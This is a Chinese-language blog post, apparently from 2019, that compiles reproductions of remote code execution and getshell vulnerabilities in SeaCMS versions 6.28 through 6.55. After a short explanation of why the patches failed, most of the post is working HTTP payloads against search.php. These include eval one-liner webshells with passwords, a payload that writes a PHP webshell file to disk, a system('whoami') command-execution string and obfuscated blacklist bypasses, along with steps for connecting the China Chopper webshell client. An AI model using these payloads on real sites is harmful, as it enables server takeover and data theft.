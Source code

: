 ```yaml
---
title:  海洋cms(SEACMS) 漏洞整合复现
date: 2019-11-04 19:38:32
author: dylan
top: false
cover: false
password: 
categories: web安全
tags: 
    - 海洋cms
    - Seacms
    - 漏洞复现
    - Command Execution
---
```

# 0x00 漏洞概述

海洋CMS V6.28 存在命令执行漏洞，漏洞具体内容参见：
[ 海洋CMS V6.28 命令执行 0DAY](https://www.uedbox.com/post/8857/)

在2017年2月，海洋CMS 6.45版本存在一个前台getshell漏洞，漏洞具体内容参见：
[SeaCMS v6.45前台Getshell 代码执行漏洞分析](https://bbs.ichunqiu.com/thread-35085-1-1.html)
[Seacms漏洞分析利用复现 By Assassin - Assassin - CSDN博客](http://blog.csdn.net/qq_35078631/article/details/76595817)
该漏洞成因在于search.php没有对用户输入内容进行过滤，导致攻击者提交的order参数可进入parseIf函数中执行eval。  


官方在6.46版中修复了该漏洞，修复方法是对用户输入的参数进行过滤并限制长度为20个字符。
但这种修复方法并没有完全修复漏洞，因为在替换操作过程中用户输入的几个参数可以进行组合，因此补丁被绕过。  

随后官方又在8月7日发布了6.54版本再次修复漏洞，这次修复增加了一句：

`$order = ($order == "commend" || $order == "time" || $order == "hit") ? $order : "";`

即限制了order参数只能是固定内容，这样虽然避免了通过order参数进行的攻击，但是却没有解决其他参数进入parseIf函数的问题。

[漏洞预警 | 海洋CMS（SEACMS）0day漏洞预警](https://www.freebuf.com/vuls/150042.html)


6.54版本更新中，官方给出的修复是在parseIf函数里面加了黑名单。
但是没有做SERVER变量的过滤，所以可以用SERVER变量的性质来达到写入命令。
 [SeaCMS v6.54和v6.55前台Getshell 代码执行漏洞分析(附批量getshell脚本)](https://bbs.ichunqiu.com/thread-35140-1-5.html)
 
# 0x01 漏洞复现
## 海洋CMS V6.28
详见：
[ 海洋CMS V6.28 命令执行 0DAY](https://www.uedbox.com/post/8857/)

一句话payload，密码`cmd`: 

`url+/search.php?searchtype=5&tid=&area=eval($_POST[cmd])`


## 海洋CMS V6.45
详见：
[SeaCMS v6.45前台Getshell 代码执行漏洞分析](https://bbs.ichunqiu.com/thread-35085-1-1.html)

path:
`url+/search.php`
POST:
`searchtype=5&order=}{end if} {if:1)phpinfo();if(1}{end if}`

[【代码审计】seacms 前台Getshell分析](https://www.cnblogs.com/sqyysec/p/7765703.html)

path:
`url+/search.php`
```
searchtype=5&searchword=d&order=}{end if}{if:1)print_r($_POST[func]($_POST[cmd]));//}{end if}&func=assert&cmd=phpinfo();
```

![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20191105090018.png)


[seacms最新版前台getshell](https://www.cnblogs.com/bay1/p/10982344.html)
一句话payload，文件`test.php`  密码`pass`: 
path:
`url+/search.php`
```
}{end if}{if:1)print_r($_POST[func]($_POST[cmd]));//}{end if}&func=assert&cmd=fwrite(fopen("test.php","w"),'<?php eval($_POST["pass"]);?>')
```

## 海洋CMS V6.54
详见：
[漏洞预警 | 海洋CMS（SEACMS）0day漏洞预警](https://www.freebuf.com/vuls/150042.html)
[SeaCMS v6.54和v6.55前台Getshell 代码执行漏洞分析(附批量getshell脚本)](https://bbs.ichunqiu.com/thread-35140-1-5.html)

path:
`url+/search.php`
POST:
```
searchtype=5&searchword={if{searchpage:year}&year=:e{searchpage:area}}&area=v{searchpage:letter}&letter=al{searchpage:lang}&yuyan=(join{searchpage:jq}&jq=($_P{searchpage:ver}&&ver=OST[9]))&9[]=ph&9[]=pinfo();
```

![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20191105092054.png)


命令执行payload

path:
`url+/search.php`
POST:
```
searchtype=5&searchword={if{searchpage:year}&year=:e{searchpage:area}}&area=v{searchpage:letter}&letter=al{searchpage:lang}&yuyan=(join{searchpage:jq}&jq=($_P{searchpage:ver}&&ver=OST[9]))&9[]=sy&9[]=stem("whoami");
```

url一句话拿shell
详见：
[记一次海洋cms任意代码执行漏洞拿shell(url一句话马)](https://zzreno.github.io/2019/05/19/记一次海洋cms任意代码执行漏洞拿shell-url一句话马/)

权限足够的话，`file_put_concents(“connect.php”,”“)`，然后连接菜刀即可。
权限不足的话，利用payload构造url：

`url+/search.php?searchtype=5&searchword={if{searchpage:year}&year=:e{searchpage:area}}&area=v{searchpage:letter}&letter=al{searchpage:lang}&yuyan=(join{searchpage:jq}&jq=($_P{searchpage:ver}&&ver=OST[9]))`

连接放入菜刀，密码是 `9[]`

![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20191105094457.png)


## 海洋CMS V6.55

详见：
[SeaCMS v6.54和v6.55前台Getshell 代码执行漏洞分析(附批量getshell脚本)](https://bbs.ichunqiu.com/thread-35140-1-5.html)

path:
`url+/search.php`
POST:
```
searchtype=5&searchword={if{searchpage:year}&year=:as{searchpage:area}}&area=s{searchpage:letter}&letter=ert{searchpage:lang}&yuyan=($_SE{searchpage:jq}&jq=RVER{searchpage:ver}&&ver=[QUERY_STRING]));/*
```

# 参考文章
[ 海洋CMS V6.28 命令执行 0DAY](https://www.uedbox.com/post/8857/)
[SeaCMS v6.45前台Getshell 代码执行漏洞分析](https://bbs.ichunqiu.com/thread-35085-1-1.html)
[漏洞预警 | 海洋CMS（SEACMS）0day漏洞预警](https://www.freebuf.com/vuls/150042.html)
[记一次海洋cms任意代码执行漏洞拿shell(url一句话马)](https://zzreno.github.io/2019/05/19/记一次海洋cms任意代码执行漏洞拿shell-url一句话马/)
[SeaCMS v6.54和v6.55前台Getshell 代码执行漏洞分析(附批量getshell脚本)](https://bbs.ichunqiu.com/thread-35140-1-5.html)



